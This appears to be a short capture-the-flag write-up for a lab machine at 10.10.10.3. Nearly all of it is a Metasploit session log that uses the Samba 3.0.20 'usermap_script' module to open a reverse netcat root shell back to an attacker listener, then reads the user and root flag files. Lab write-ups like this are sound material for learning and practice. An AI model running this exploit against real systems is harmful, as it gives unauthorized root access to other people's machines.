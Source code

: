 ### Samba 3.0.20 metasploit exploit

Lets use the metasploit exploit for Samba 3.0.20 by simply configuring the remote and listener

```c
msf6 > search samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show options 

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.88     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.8
LHOST => 10.10.14.8
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.8:4444 
[*] Command shell session 1 opened (10.10.14.8:4444 -> 10.10.10.3:58270) at 2021-09-15 12:03:55 +0530

id
uid=0(root) gid=0(root)
whoami
root
cat /home/makis/user.txt
<---USER FLAG--->
cat /root/root.txt
```